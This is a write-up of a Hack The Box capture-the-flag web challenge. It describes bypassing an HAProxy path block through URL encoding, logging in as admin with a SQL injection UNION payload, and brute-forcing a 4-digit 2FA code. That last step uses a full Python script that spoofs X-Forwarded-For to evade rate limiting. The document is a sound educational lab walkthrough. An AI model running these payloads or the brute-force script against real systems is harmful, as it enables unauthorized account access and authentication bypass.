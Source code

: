 ```yaml
---
title: 'Web challeng Write-Up: No-Threshold'
date: '2023-12-17'
tags: ['Web Exploitaion']
draft: false
summary: 'writeup detailing the solving process of the No-Threshold web challenge from HACK THE BOX.'
---
```


## Web Challenge from Hack The Box

##### Challenge level:- Medium
##### Challenge Description:
Prepare for the finest magic products out there. However, please be aware that we've implemented a specialized protective spell within our web application to guard against any black magic aimed at our web shop.🔮🎩


#### **Website:**

Upon starting the challenge on HackTheBox, we are given a URL to visit furthermore, we are also given the source code of the vulnerable application to download.
Upon visiting the web application, it became apparent that it functioned as an online shop where the ability to make purchases was restricted solely to logged-in users.

![logged_only.png](/static/images/logged_only.png)

navigating to the /auth/login page : 

![forbidden_access.png](/static/images/forbidden_access.png)


the response was   `403 Forbidden` indicating that  the request is forbidden by administrative rules.
Examining the source code, particularly focusing on the HAProxy configuration file `haproxy.cfg`.

![haproxyconfig.png](/static/images/haproxyconfig.png)
  
The `http-request deny if { path_beg /auth/login }` configuration in HAProxy is a directive that denies access to any HTTP request whose path begins with `/auth/login`.
After numerous attempts to understand how to handle this restriction, I discovered that URL encoding was adequate for bypassing it.
URL-encoding of `auth`=`%61%75%74%68`


![urlencode.png](/static/images/urlencode.png)
  
Upon entering the login page, my subsequent action was to attempt to log in.
Inspecting the code handling the login process:

![444444444444444444444444.png](/static/images/444444444444444444444444.png)

the `login` function uses the function `query_db` to query the database which takes a SQL  query as a parmeter.
the SQL query used to retrieve a user seems to be vulnerable.Using this payload (`testsq' UNION ALL SELECT  username, password FROM users WHERE username = 'admin `) ,I was able to login as an admin.

URL-Encoding(`testsq' UNION ALL SELECT  username, password FROM users WHERE username = 'admin `)==  `%74%65%73%74%73%71%27%20%55%4e%49%4f%4e%20%41%4c%4c%20%53%45%4c%45%43%54%20%20%75%73%65%72%6e%61%6d%65%2c%20%70%61%73%73%77%6f%72%64%20%46%52%4f%4d%20%75%73%65%72%73%20%57%48%45%52%45%20%75%73%65%72%6e%61%6d%65%20%3d%20%27%61%64%6d%69%6e`


![elmoudir.png](/static/images/elmoudir.png)

Once  getting logged , I was redirected to a 2fa code verification page.
according to the login function ,once logged ,the function `set_2fa_code(4)` is called to  generate a random 4-digit Two-Factor Authentication (2FA)  code  and set it in the uwsgi cache valid for 5 minutes. 


![2fa.png](/static/images/2fa.png)

In this scenario, a viable solution could involve employing a brute-force attack, particularly since the target number is limited to a 4-digit length.
While employing Burp Intruder (with attack mode: `sniper`) , the first few requests were successful, but the rest resulted in a 429 status error code.

Upon revisiting the HAProxy configuration, I identified the cause.

![429_statuscode.png](/static/images/429_statuscode.png)

this HAProxy configuration assure if a client makes more than 20 requests in a short timeframe, they will be denied access with a 429 status code. 
An important thing to mention is that the information used to identify clients is taken from the `X-Forwarded-For` header.

That's why I wrote a python script that brute force the 2fa code and changing
the `X-Forwarded-For` every 4 requests.

```python
import requests
from concurrent.futures import ThreadPoolExecutor
def load_wordlist(wordl):
	with open(wordl,'r') as wor:
	return wor.read().splitlines()
	  
def send_requests(codes_2fa,n):
	url='http://188.166.175.58:30948/auth/verify-2fa'
	headers={	
	'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',	
	'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
	'Accept-Language': 'en-US,en;q=0.5',	
	'Accept-Encoding': 'gzip, deflate, br',	
	'Content-Type': 'application/x-www-form-urlencoded',	
	'Content-Length': '13',	
	'Origin': 'http://188.166.175.58:30948',	
	'Connection': 'close',	
	'Referer': 'http://188.166.175.58:30948/auth/verify-2fa',	
	'Upgrade-Insecure-Requests': '1',	
	'Sec-Fetch-Dest': 'document',	
	'Sec-Fetch-Mode': 'navigate',	
	'Sec-Fetch-Site': 'same-origin',	
	'Sec-Fetch-User': '?1',
	}
	
	base_ip='192.168.'
	current_ip_suffix=[1,1]	
	with ThreadPoolExecutor(max_workers=100) as executor:
		futures=[]	
		for i,code_2fa in enumerate(codes_2fa,start=1):
			ip=base_ip+str(current_ip_suffix[0])+'.'+str(current_ip_suffix[1])
			future=executor.submit(send_request,ip,code_2fa,headers,url)
			futures.append(future)		
			if i% n ==0:
				current_ip_suffix[1]+=1			
			if current_ip_suffix[1]>254:
				current_ip_suffix[1]=1
				current_ip_suffix[0]+=1			
			if current_ip_suffix[0]>254:
				current_ip_suffix=[1,1]		
		for future in futures:
			future.result()
			
def send_request(ip,code_2fa,headers,url):
	headers['X-Forwarded-For']=ip	
	data={'2fa-code':str(code_2fa)}	
	response=requests.post(url,headers=headers,data=data)
	if 'Invalid 2FA Code!' not in response.text:	
		print(f'IP :{ip},2FA:{code_2fa}:{response.text}')
  

if __name__=='__main__':
my_wordlist='/home/lwess/Downloads/SecLists-master/Fuzzing/4-digits-0000-9999.txt'
codes_2fa=load_wordlist(my_wordlist)
n=4
send_requests(codes_2fa,n)
```


Running this python script :


![flag2.png](/static/images/flag2.png)

# **Summary:**

The `No-Threshold` web challenge presented by Hack The Box was an exceptional experience. This distinctive challenge centers on a misconfiguration in HAProxy that enables unauthorized access through URI encoding. The journey unfolds by gaining admin privileges through SQL injection exploitation and culminates in overcoming the 2FA-code check through a brute-force attack. Successfully solving the challenge requires chaining together all identified vulnerabilities to ultimately obtain the flag





